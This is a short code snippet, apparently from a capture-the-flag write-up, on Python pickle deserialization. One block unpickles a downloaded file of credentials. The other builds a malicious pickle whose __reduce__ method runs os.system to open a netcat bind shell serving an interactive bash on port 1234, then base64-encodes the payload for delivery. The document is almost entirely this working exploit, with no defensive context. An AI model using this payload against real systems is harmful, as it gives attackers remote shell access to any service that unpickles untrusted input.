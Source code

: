 

Read pickle


```python
import pickle
with open("download.dat", "rb") as file:
    pickle_data = file.read()
    creds = pickle.loads(pickle_data)
    print(creds)
```

Create pickle

```python
import pickle, os, base64
class P(object):
    def __reduce__(self):
        return (os.system,("netcat -c '/bin/bash -i' -l -p 1234 ",))
print(base64.b64encode(pickle.dumps(P())))
```

